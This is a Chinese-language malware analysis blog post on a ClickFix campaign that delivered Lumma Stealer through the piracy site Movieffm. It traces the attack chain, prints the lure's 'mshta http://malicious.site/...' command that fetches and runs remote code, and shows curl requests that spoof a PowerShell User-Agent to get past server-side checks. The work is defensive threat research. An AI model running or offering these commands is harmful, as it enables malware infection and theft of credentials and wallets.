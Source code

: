 ```yaml
---
layout: post
title: "惡意程式分析報告：透過盜版影音網站 Movieffm 散播的 Lumma Stealer 攻擊活動 "
subtitle: ""
date: 2025-09-03
author: "Peter"
header-img: "img/post-bg-hack.jpg"
tags: [資安, 惡意程式分析, lumma stealer, clickfix]
---
```


本報告旨在分析一起利用盜版影音網站 Movieffm 進行的惡意軟體攻擊活動。攻擊者首先在該網站中植入混淆的 JavaScript 腳本。該腳本會對訪問者進行瀏覽器指紋辨識 (Fingerprinting)，針對符合條件的目標，觸發一個偽裝成 CAPTCHA 的惡意釣魚頁面。

此釣魚頁面會誘導使用者複製並執行一段 `mshta.exe` 指令，以下載並執行一個 HTA (HTML Application) 檔案。後續的攻擊鏈中，攻擊者再次利用 User-Agent 指紋辨識技術，確保只有來自 PowerShell 的請求才能接收到最終的 Lumma Stealer 惡意腳本 。

一旦 Lumma Stealer 成功執行，它將竊取受害者電腦中的瀏覽器紀錄、加密貨幣錢包、系統憑證等敏感資料，並回傳至攻擊者的 C2 (Command and Control) 伺服器。建議使用者應避免訪問高風險網站，並採用具備惡意網站過濾功能的瀏覽器或安全插件，以降低此類攻擊的風險。

## 一、攻擊鏈分析 (Attack Chain Analysis)

### 階段一：初始入侵與前端腳本植入

分析顯示，Movieffm 網站的頁面中被植入了外部 JavaScript 腳本。經分析，此腳本會動態向遠端伺服器請求並載入一段經過高度混淆的程式碼。

**前端腳本**
![movieffm javascript](/img/in-post/movieLumma/image-3.png)

該腳本的主要功能是動態建構並發出一個請求，用以載入更複雜的遠端 JavaScript 腳本。透過 Burp Suite 進行流量攔截，可以看到伺服器回應的 JavaScript 內容經過高度混淆。

**前端回傳的 javascript response**
![burp response](/img/in-post/movieLumma/image-4.png)

初步分析這份龐大的混淆腳本後，確認其核心功能之一是進行使用者 Fingerprinting。透過分析使用者的環境以精準投放 payload 或規避網路或防毒軟體的偵查。

對惡意腳本所在的伺服器 IP 進行 `dig` 與 `shodan` 調查，僅能確認其由 `servers.com` 提供服務，並架設於 Nginx 上，顯示攻擊者利用了常見的託管服務來隱藏其真實基礎設施。
![shodan](/img/in-post/movieLumma/image-6.png)

### 階段二：社交工程與惡意指令傳遞

符合特定指紋的訪問者會被重新導向至一個 CAPTCHA 驗證的釣魚頁面，此頁面託管於 Cloudflare 保護的網域後方，且每次訪問的網域名稱皆不相同，增加了追蹤的難度。

![alt text](/img/in-post/movieLumma/image-8.png)

> 此攻擊手法並非首例，這個手法被稱作 ClickFix ，常伴隨 Lumma Stealer 。詳情可參閱[此連結][1]。

此釣魚頁面的網址每次都不同，但透過 WHOIS 查詢，均發現其利用 Cloudflare 進行反向代理，增加了追蹤其來源伺服器的難度。

**whois 查詢結果**
![whois-cloudflare](/img/in-post/movieLumma/image-14.png)

當使用者點擊頁面上的 "I'm not a robot" 核取方塊時，網頁會執行一段 JavaScript，將一串惡意指令複製到使用者的剪貼簿中，並同時跳出一個彈窗，指示使用者按下 Ctrl + R（或 Cmd + R），然後貼上並執行指令。

**頁面誘騙使用者點擊「I'm not a robot」按鈕。**
![alt text](/img/in-post/movieLumma/image-9.png)

被複製的指令如下
```powershell
mshta http://malicious.site/gbg7/rhfb.c
```

> mshta.exe 是 Windows 內建的合法程式，常用於執行 HTA 檔案，但也因此成為攻擊者執行任意程式碼的常見「離地攻擊」(Living-off-the-Land) 手段。關於更多請參照[連結][2]。


### 階段三：Payload 下載與執行

為了分析 `mshta` 將要執行的內容，我們使用 `curl` 工具直接請求該 HTA 檔案。
```bash
curl -i "http://malicious.site/gbg7/rhfb.c"
```
![alt text](/img/in-post/movieLumma/image-11.png)

伺服器回傳的 HTA 檔案內容非常簡短，其核心是執行一段 PowerShell 指令，以下載並執行另一個遠端腳本。

當我們嘗試直接用 curl 訪問 PowerShell 將要下載的 URL時，卻發現請求被重新導向到無害的 Steam 網站，暗示伺服器端存在額外的檢查機制。

**curl 返回結果為 redirect**
![curl fingerprinting](/img/in-post/movieLumma/image-12.png)

我們推測伺服器會驗證請求的 User-Agent。因此，我們在 curl 指令中模擬 PowerShell 的 User-Agent 再次發出請求：
```bash
curl -s -X GET "http://malicious.site/gbg7/" -H "User-Agent: Mozilla/5.0 (Windows NT; Windows NT 10.0; en-US) WindowsPowerShell/5.1.19041.1320"
```

這次，伺服器成功回傳了真正的惡意 PowerShell 腳本，只有來自受害者機器上 PowerShell 程式的流量才會收到惡意 payload，而來自普通瀏覽器或分析工具的請求則會被另外重新導向。

**模擬 powershell 結果為惡意腳本**
![powershell user agent response](/img/in-post/movieLumma/image-13.png)

### 階段四：最終目標 - Lumma Stealer 資訊竊取軟體

我們將取得的 PowerShell 腳本上傳至 `any.run` 沙盒環境進行動態分析。

分析報告確認，該腳本的最終 payload 為 Lumma Stealer，這是一款知名的資訊竊取惡意軟體。一旦執行，它會掃描受感染的電腦，竊取儲存在瀏覽器中的敏感資料（如密碼、Cookies、信用卡資訊）、加密貨幣錢包、系統資訊等，並將所有資料打包後傳送到攻擊者的 C2 (Command & Control) 伺服器。

沙盒分析連結: [https://app.any.run/tasks/29c82282-2320-4c94-9529-b5591287fe03][3]

![any.run result](/img/in-post/movieLumma/image-15.png)


## 緩解與建議
為防範此類攻擊，建議使用者採取以下措施：

避免使用盜版或不受信任的網站服務：正版服務通常具備更完善的安全維護，較不易成為惡意程式的溫床。

使用具備防護功能的瀏覽器與擴充套件：

- 瀏覽器如 Microsoft Edge 內建的 SmartScreen 或 Google Chrome 的安全瀏覽 (Safe Browsing) 功能，能有效阻擋已知的惡意網站。
- 安裝如 uBlock Origin 等廣告攔截器，能有效阻止惡意的彈出視窗和腳本執行。

保持高度警覺，切勿執行來路不明的指令：任何引導你在終端機、PowerShell 或執行對話框中輸入的指令，都可能對你的電腦造成無法挽回的損害。務必對這類要求保持懷疑。

## 責任通報與生態系防禦
本次分析中相關連結已向相關單位通報。 

servers.com
![alt text](/img/in-post/movieLumma/image-16.png)

sollutium-nl
![alt text](/img/in-post/movieLumma/image-18.png)

movieffm.net
![alt text](/img/in-post/movieLumma/image-19.png)

## 附錄：樣本資訊
本次分析過程中發現的相關腳本與樣本已整理至以下 GitHub repo：
[https://github.com/PPKan/malware_samples/tree/main/movieffm_samples][4]


[1]:https://www.trendmicro.com/zh_tw/research/25/g/lumma-stealer-returns.html
[2]:https://www.cnblogs.com/backlion/p/10491616.html
[3]:https://app.any.run/tasks/29c82282-2320-4c94-9529-b5591287fe03
[4]:https://github.com/PPKan/malware_samples/tree/main/movieffm_samples
